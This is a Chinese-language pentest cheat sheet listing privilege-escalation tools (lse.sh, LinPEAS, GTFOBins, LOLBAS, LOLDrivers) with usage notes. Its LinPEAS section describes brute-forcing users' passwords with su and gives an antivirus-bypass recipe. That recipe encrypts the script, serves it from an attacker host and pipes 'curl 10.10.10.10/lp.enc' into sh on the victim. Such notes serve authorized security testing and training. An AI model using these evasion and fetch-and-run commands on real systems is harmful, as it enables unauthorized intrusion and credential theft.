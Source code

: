 ...............................
# lse.sh
Link: (https://github.com/diego-treitos/linux-smart-enumeration)(Another Version of LinENUM)
Usage: 直接上传执行
For: Linux权限提升建议脚本
Parameters: 
```
首先，您应该像 `./lse.sh` 一样执行它。如果你看到一些绿色的 `yes!` ，你可能已经有一些好东西可以使用了。

如果没有，您应该尝试使用 `./lse.sh -l1` 的 `level 1` 详细程度，您将看到更多有趣的信息。
 
如果这没有帮助， `level 2` 将转储您可以使用 `./lse.sh -l2` 收集的有关服务的所有内容。在这种情况下，您可能会发现使用 `./lse.sh -l2 | less -r` 很有用。
 
还可以通过传递 `-s` 参数来选择要执行的测试。有了它，您可以选择要执行的特定测试或部分。例如， `./lse.sh -l2 -s usr010,net,pro` 将执行测试 `usr010` 以及 `net` 和 `pro` 部分中的所有测试。
```
...............................
# LinPEAS
Link:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
For: Linux权限提升建议脚本
Usage: 直接上传执行，没有依赖项。
Parameters: 
``` 
    -a（除正则表达式外的所有检查） - 这也将在 1 分钟内执行进程检查，将在文件中搜索更多可能的哈希值，并使用带有 top2000 密码的 `su` 暴力破解每个用户。 
    -e （extra enumeration） - 这将执行默认情况下避免的枚举检查  
    -r （regex checks） - 这将在文件系统中搜索数百个不同平台的 API 密钥
    -s （superfast & stealth） - 这将绕过一些耗时的检查 - 隐身模式（不会将任何内容写入磁盘）
    -P （Password） - 传递将用于 `sudo -l` 和暴力破解其他用户的密码
    -D （Debug） - 打印有关未发现任何内容的检查以及每次检查所花费时间的信息 
    -d/-p/-i/-t （本地网络枚举） - Linpeas 还可以发现和端口扫描本地网络
```
AV Bypass:
```
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

...............................
# GTFOBins
Link: https://gtfobins.github.io/
For: Unix 二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLBAS
Link: https://lolbas-project.github.io/
For: Windows二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLDrivers
Link: https://www.loldrivers.io/
For: Windows二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
